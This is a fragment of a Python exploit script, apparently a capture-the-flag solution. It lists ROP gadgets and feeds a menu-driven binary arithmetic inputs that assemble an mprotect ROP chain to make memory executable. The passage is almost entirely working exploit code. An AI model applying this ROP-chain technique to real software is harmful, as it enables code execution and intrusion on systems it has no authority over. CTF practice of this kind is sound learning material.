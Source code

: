 ```python
    r.send(str(x)+"\n")
    print r.recv()
    r.send("1094795500\n")
    print r.recv()
    x = x + 1

"""
ROP gadgets
0x0000000000474c6a: pop rax; ret;
0x0000000000493fef: pop rdi; ret;
0x00000000004ac9b8: pop rsi; ret;
0x0000000000437a85: pop rdx; ret;
0x0000000000437aa9: pop rdx; pop rsi; ret;
0x0000000000467f95: syscall; ret;
"""


# RIP overwrite here

#__[start mprotect ROP chain]__#
r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
#r.send("1094795500\n")
r.send("4788150\n")         # 12345 + 4788150 = 0x493fef ; pop rdi; ret
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("85\n")
print r.recv()
r.send("7077803\n")         # 85 + 7077803 = 0x6c0000 ; addr to mprotect rwx
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("4409968\n")         # 12345 + 4409968 = 0x437aa9 ; pop rdx; pop rsi; ret
print r.recv()

add_align()

r.send("2\n")
print r.recv()
r.send("12352\n")
print r.recv()
r.send("12345\n")         # 12352 - 12345 = 7 ; rwx
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("85\n")
print r.recv()
r.send("12203\n")         # 85 + 12203 = 0x3000 ; len to mprotect
print r.recv()
```
